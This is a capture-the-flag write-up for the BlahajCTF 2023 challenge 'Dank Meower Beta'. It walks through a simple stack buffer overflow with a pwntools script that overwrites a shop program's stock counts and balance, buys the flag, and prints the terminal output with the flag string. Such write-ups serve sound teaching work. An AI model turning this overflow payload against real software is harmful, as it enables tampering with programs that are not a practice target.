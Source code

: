 ```yaml
---
title: Dank Meower Beta
date: 2023-12-03
tags: pwn
categories: BlahajCTF 2023
---
```


> I want to make a discord bot but I don't know how to use discord.py, so I made a prototype in C.

> Pst! I heard you were looking to get some flags from that flag shop over there, but they were out of stock. Luckily, I think I can help you with that... I've attached the source code of the shop [here](https://gist.github.com/azazazo/de242e67acada5e16be7c3b0745b5525), and you can download the binary [here](https://github.com/azazazo/blahajctf-files/raw/main/dank%20meower%20beta/guide). Contact me at `nc 188.166.197.31 30003` if you're still keen...

This is a simple buffer overflow challenge, with a helpful stack diagram even showing you the layout of the stack itself. The challenge already does a helpful job of explaining the basics of a buffer overflow. The stack diagram thing was cool and helpful. However, it seems that many people were stuck on how to give themselves the $2,147,483,647 (`0x7fffffff`) required to get the flag, since that requires one to input `0x7fffffff` as little-endian.

We can send the `0x7fffffff` input with a pwntools script:

{% ccb caption:solve.py gutter1:1-11 lang:py %}
from pwn import *
# target = process("./guide") # use this for local testing
target = remote("104.248.97.96", 30001)
for i in range(12):
    target.sendline(b'') # press enter through the buffer overflow guide

target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
target.sendline(b'2') # shop
target.recvline()
target.sendline(b'3') # buy flag
target.interactive()
{% endccb %}

Now let's look at our buffer overflow payload:
{% ccb lang:py caption:solve.py gutter1:7 %}
target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
{% endccb %}

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Jetbrains Mono','Menlo',monospace;font-size:14px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit</SPAN></DIV>
{% endccb %}

We have overwriten `choice` with the value of 1, overwritten the stock counts of all three items with 1, and overwritten the value of balance with `0x7fffffff`

We can then proceed to buy the flag:

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Jetbrains Mono','Menlo',monospace;font-size:14px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 32 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">2<BR><BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Welcome to the shop! What would you like to buy?<BR>1) Small blahaj (in stock) - $10<BR>2) Big blahaj (in stock) - $30<BR>3) Flag (in stock) - $2,147,483,647<BR></SPAN><SPAN STYLE="color:#E06C75;">$<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Congratulations! You now have your very own flag!<BR>Here's your flag: blahaj{buFf3r_50Lu710n5_R35157_cH4n935_1n_pH}<BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR></SPAN><SPAN STYLE="color:#E06C75;">$</SPAN></DIV>
{% endccb %}
